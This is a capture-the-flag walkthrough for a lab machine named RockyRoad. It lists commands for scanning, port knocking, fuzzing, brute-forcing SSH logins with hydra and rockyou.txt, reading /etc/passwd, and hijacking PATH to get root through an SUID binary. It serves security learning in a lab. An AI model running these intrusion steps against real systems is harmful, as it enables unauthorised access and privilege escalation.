# Solution

- To attack any machine first find it’s IP address :

```
[sudo] nmap 192.168.56.0-254 
```



IP : 192.168.56.119

- Scanning open ports :

```
[sudo] nmap -A -p- 192.168.56.119 
```



I’ve discovered that ports 80 and 22 are open.

- Let's enumerate directories and files with dirb

```
[sudo] dirb http://192.168.56.119 -w /usr/share/wordlists/dirb/big.txt
```



By looking into robots.txt, it's subtle but we find an encoded message :



- Let's knock on port 17369 :

```
[sudo] knock 192.168.56.119 17369
```



We have an Nginx service running on port 8080

- Let's perform fuzzing on this Nginx server :



The found webshell directory points to the chess directory :



- Let's navigate and discover the pages of the chess site. On the Sicilian Defense page, we encounter an Nginx error, but the 'powered by Nginx' href has been changed to a .txt file.



At the end of the .txt file, we find a Brainfuck code. 



And when we decode it, it gives us this phrase :

> Did you know I love capital letters ? Take a good look at those on the main page, they might just form my password... 
> Now it's up to you to find the user

- Let's grep only the uppercase letters from the main page :

```
[sudo] echo "..." | grep -oE [A-Z] | tr -d '\n'
```



Password : HWRRTHLILINMFCNEIMTMAIIGCN

- Let's brute force the user with this password :

```
[sudo] hydra -L /usr/share/wordlists/rockyou.txt -p "HWRRTHLILINMFCNEIMTMAIIGCN" ssh://192.168.56.119 -s 22 -t 16
```



User : stupid

- Let's connect this user and password to the target machine :

```
[sudo] ssh -l stupid 192.168.56.119
```



- Let's list the files in the root directory :

```
ls -alhk /
```



We find a mysterious .vault directory, in which there is an encoded password. Number of Archimedean solids : 



- The password is encoded in ROT13, let's decode it :

```
[sudo] echo 'Lbh1Zvyy2ArhRe3Syaq4Jr!' | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```



Password : You1Mill2NeuEr3Flind4We!

- Password found, now let's find the name of the "lost user"

```
cat /etc/passwd
```



Be careful with the configured alias, the car command seems to be an alias with a ```grep -v``` for lostuser. Let's display the /etc/passwd file in another way :

```
less /etc/passwd | grep lostuser
```



User : lostuser

- Let's connect this user and password to the target machine :


```
su lostuser
```



- Let's display all the commands that the user lostuser can execute with the privileges of another user :

```
sudo -l
```



- Let's go to the /var/www/lostuser directory. We discovered an SUID binary that could grant us root access :

```
cd /var/www/html && ls -alhk && cat searchinstall.c
```



As shown above, the binary executes an 'install' binary that is located in the PATH :

- Let's create our own binary that could give us a root shell :

```
cd /tmp/
echo /bin/bash -i > install
chmod +x install
cd /var/www/lostuser
export PATH=/tmp/:$PATH
./searchinstall -p
id || whoami
```



We are now connected as root !

- Let's display the root flag of RockyRoad

```
cd /root/
cat root.txt
```



The objective of RockyRoad is complete ! I hope you enjoyed the box. See you !
